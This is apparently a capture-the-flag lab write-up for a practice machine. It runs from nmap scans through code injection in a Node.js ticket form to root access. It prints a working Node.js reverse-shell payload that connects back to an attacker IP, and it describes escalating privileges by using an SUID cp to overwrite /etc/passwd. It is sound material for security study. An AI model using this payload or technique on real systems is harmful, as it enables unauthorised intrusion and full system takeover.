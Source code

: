 First we start with nmap scan

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v 192.168.108.110`

```
# Nmap 7.93 scan initiated Thu Dec 29 10:18:40 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v 192.168.108.110
Nmap scan report for 192.168.108.110
Host is up (0.20s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 29 10:19:21 2022 -- 1 IP address (1 host up) scanned in 41.77 seconds
```

Got few ports open, let's run nmap script to know the services running on these ports.

```
# Nmap 7.93 scan initiated Thu Dec 29 10:23:33 2022 as: nmap -sC -sV -oN normal.tcp -p 21,22,80,3000,27017 -Pn 192.168.108.110                                        
Nmap scan report for 192.168.108.110                                               
Host is up (0.30s latency).                                                        
                                                                                   
PORT      STATE SERVICE VERSION                                                                                                                                       
21/tcp    open  ftp     vsftpd 3.0.3                                                                                                                                  
| ftp-syst:                                                                        
|   STAT:                                                                                                                                                             
| FTP server status:                                                               
|      Connected to 192.168.49.108                                                                                                                                    
|      Logged in as ftp                                                            
|      TYPE: ASCII                                                                                                                                                    
|      No session bandwidth limit                                                                                                                                     
|      Session timeout in seconds is 300                                                                                                                              
|      Control connection is plain text                                                                                                                               
|      Data connections will be plain text                                         
|      At session startup, client count was 2                                                                                                                         
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                                            
|_End of status                                                                    
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                             
|_Can't get directory listing: TIMEOUT                                                                                                                                
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)                                 
| ssh-hostkey:                                                                     
|   3072 9d3feb1baa9c1eb1309b23534bcf5975 (RSA)                                    
|   256 cddc05e6e3bb1233f7097450128a8564 (ECDSA)                                   
|_  256 a0901f5078b39e412a7f5c6f4d0ea1fa (ED25519)                                 
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))                             
| http-robots.txt: 22 disallowed entries (15 shown)                                                                                                                   
| /core/ /profiles/ /README.txt /web.config /admin/                                
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/                                                                                                    
| /user/password/ /user/login/ /user/logout/ /index.php/admin/                     
|_/index.php/comment/reply/                                                        
|_http-server-header: Apache/2.4.46 (Fedora)                                                                                                                          
|_http-generator: Drupal 9 (https://www.drupal.org)                                                                                                                   
|_http-title: Home | Hacking Articles                                              
3000/tcp  open  http    Node.js (Express middleware)                                                                                                                  
|_http-title: Site doesn't have a title (text/html; charset=utf-8). 
27017/tcp open  mongodb MongoDB 4.2.9                                                                                                                                 
| mongodb-info:                                                                                                                                                       
|   MongoDB Build info                                                             
|     gitVersion = 06402114114ffc5146fd4b55402c96f1dc9ec4b5                        
|     bits = 64                                                                    
|     sysInfo = deprecated                                                                                                                                            
|     allocator = tcmalloc                                                                                                                                            
|     buildEnvironment                                                             
|       target_os = linux                                                                                                                                             
|       ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-ty
pedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-const-variable -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-bui
ltin-memcmp                                                                        
|       distmod = rhel70                                                                                                                                              
|       cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -fsized-deallocation -std=c++17                                                                      
|       cc = /opt/mongodbtoolchain/v3/bin/gcc: gcc (GCC) 8.2.0                                                                                                        
|       target_arch = x86_64                                                                                                                                          
|       cxx = /opt/mongodbtoolchain/v3/bin/g++: g++ (GCC) 8.2.0                    
|       linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -
Wl,--warn-execstack -Wl,-z,relro.
| mongodb-databases: 
|   ok = 1.0
|   totalSize = 307200.0
|   databases
|     0
|       name = account-app
|       sizeOnDisk = 131072.0
|       empty = false
|     3
|       name = local
|       sizeOnDisk = 73728.0
|       empty = false
|     2
|       name = config
|       sizeOnDisk = 61440.0
|       empty = false
|     1
|       name = admin
|       sizeOnDisk = 40960.0
|_      empty = false
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 29 10:24:30 2022 -- 1 IP address (1 host up) scanned in 56.71 seconds
```

After much enum done on port 21, 80. i got nothing so i decide to enumerate port 3000 http node.js.

![image](https://user-images.githubusercontent.com/87468669/209940567-572bbc8c-5f02-452f-91f7-1c5be7e944a0.png)

Got to see what is running on the web server. checking the source page got nothing, so i created an acct.

![image](https://user-images.githubusercontent.com/87468669/209940799-ba896ea4-4571-48f1-9ebb-709a2f5b9914.png)

create an acct and hit register button and login.

![image](https://user-images.githubusercontent.com/87468669/209941501-d6ec5e4d-af89-4122-8199-e3ad7dc42520.png)

go to eventlogs, which allows users to create tickets so i tried to create a ticket as a regular user and intercepted the request using burp.

![image](https://user-images.githubusercontent.com/87468669/209942562-7dcfa340-520d-4bc3-a649-213fc86ba97d.png)

I noticed there are 4 interesting parameters: (conenct.sid cookie, userLevel that has a base64 value which was decoded to default, username and msg )

![image](https://user-images.githubusercontent.com/87468669/209942978-139e1840-742c-456d-a598-720c153a65e4.png)

I change the value of userlevel: to admin in base64 and Then, I tried passing encoded arithmetic operations like 3*3 in the parameters to see if the application would evaluate them.

![image](https://user-images.githubusercontent.com/87468669/209943175-c656917d-1fc6-4a5a-8d64-ae196f0e5593.png)

Bull's eye we got evaluation for the arthimetic operation. Now, we have identified that the application executes JavaScript code on the back-end, it is time to weaponize it. We will use a NodeJS reverse shell and see if we get a connection back to our machine. The code below creates a function that calls the JS child_process module with the require function, creating new child processes of the main Node.js process.

Then it uses the spawn function to pass the shell commands; in our case is a bash shell that gets executed in the newly created child processes. And, finally, it creates a new connection with the port number and IP address of the attacking machine and piping the shell’s stdin (input) and piping out the client’s output (stdout).

```
(function(){     
 var net = require("net"),         
       cp = require("child_process"),         
       sh = cp.spawn("/bin/bash", []);     
  var client = new net.Socket();
 
  //create connection to the attacking machine
  client.connect(80, "192.168.49.243", function(){         
      client.pipe(sh.stdin);         
      sh.stdout.pipe(client);        
      sh.stderr.pipe(client); 
  });     
  return /a/; 
})()%
```

![image](https://user-images.githubusercontent.com/87468669/209944576-2ef1ab90-e437-4781-9cfe-23ea1e1f376d.png)

Send the payload in url encoding, and Boom got shell as user benjamin.

![image](https://user-images.githubusercontent.com/87468669/209944899-aba89f8f-73d0-4748-9c8f-e5088e73a3f2.png)

Stabilize the shell and check for suid, `/usr/bin/cp` is an suid bin, so let's excalate privs with it.

![image](https://user-images.githubusercontent.com/87468669/209970655-ea34f8df-4065-4ad4-9491-d637a3447a3a.png)
 
first i cat the `/etc/passwd` file, copied the content to my attacker machine.

![image](https://user-images.githubusercontent.com/87468669/209970811-85830d25-3b39-4ad6-851b-b20f890f9e0a.png)

Now i will generate a passwd hash using openssl.

```
[benjamin@dibble ~]$ openssl passwd hacked
7/TuPFu6J7YdE
[benjamin@dibble ~]$
```

![image](https://user-images.githubusercontent.com/87468669/209971059-ce42629a-02c2-46ac-b9a7-f66e6b5b9418.png)

replace the :x: part with the openssl password hash, save the file and send it to the target.

![image](https://user-images.githubusercontent.com/87468669/209971328-6648559f-8618-4548-8d80-0dcb12e31999.png)

Now we've sent the file to the target, we will use cp to replace the the /etc/passwd file with this new passwd file.

![image](https://user-images.githubusercontent.com/87468669/209971652-131dc35e-c665-47bb-b296-bb7394668ce4.png)

After replacing the file, i just did su root with password hacked. And boom i got root.😎😎
